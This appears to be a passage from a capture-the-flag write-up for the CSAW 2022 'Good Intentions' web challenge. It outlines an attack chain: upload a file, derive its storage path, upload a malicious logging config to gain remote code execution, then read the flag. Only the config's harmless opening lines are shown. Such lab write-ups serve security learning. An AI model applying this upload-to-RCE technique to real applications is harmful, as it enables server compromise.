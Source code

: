  ### Solution
 <strong>Logic</strong>
 ```mermaid
graph LR;  
 upload_random_file-->Get_its_storage_path-->upload_evil_config-->remote_code_execution-->redirect_flag_to_random_file-->open_random_file  
```
* /api/upload -> upload first random file 
![](https://github.com/anas-cherni/CTF-writeups/blob/main/CSAW%20quals%202k2022%20-%20full%20web/Good%20Intentions/whatever.png?raw=true)
* /api/gallery -> get its name and from the source code we can construct the whole storage path.
 ```python
upload_dir = f"{current_app.config['UPLOAD_FOLDER']}/images/{rand_dir}/"

os.makedirs(upload_dir, exist_ok=True)
```

![](https://github.com/anas-cherni/CTF-writeups/blob/main/CSAW%20quals%202k2022%20-%20full%20web/Good%20Intentions/whatever2.png?raw=true)
 * /api/upload -> upload evil config
 ```
 [loggers]
keys=root,simpleExample
 ```